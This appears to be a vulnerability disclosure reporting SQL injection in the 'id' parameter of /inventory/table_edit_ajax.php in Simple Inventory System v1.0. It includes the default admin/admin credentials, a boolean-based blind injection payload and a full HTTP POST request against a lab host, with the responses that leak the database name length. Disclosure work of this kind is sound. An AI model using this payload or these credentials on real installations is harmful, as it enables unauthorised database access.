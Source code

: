 # Simple Inventory System v1.0 by argie has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

Vulnerability File: /inventory/table_edit_ajax.php

Vulnerability location: /inventory/table_edit_ajax.php

[+] Payload: id=6' and length(database()) =8--+&price=1&qty_sold=111 // Leak place ---> id

Current database name: liveedit,length is 8

```sql
POST /inventory/table_edit_ajax.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/inventory/tableedit.php
Content-Length: 55
Cookie: PHPSESSID=4udcglaaucdqgpdolfhsjerl4q
Connection: close

id=6' and length(database()) =8--+&price=1&qty_sold=111
```

When length (database (()) = 7, Content-Length: 4;location: index.php
![image](https://user-images.githubusercontent.com/54017627/169198088-320ef61a-4072-4718-83a2-9988f39a8840.png)

When length (database (()) = 8, Content-Length: 4;location: tableedit.php

![image](https://user-images.githubusercontent.com/54017627/169198056-11a6e2ba-a810-4c40-97df-1e8cbb9dc852.png)


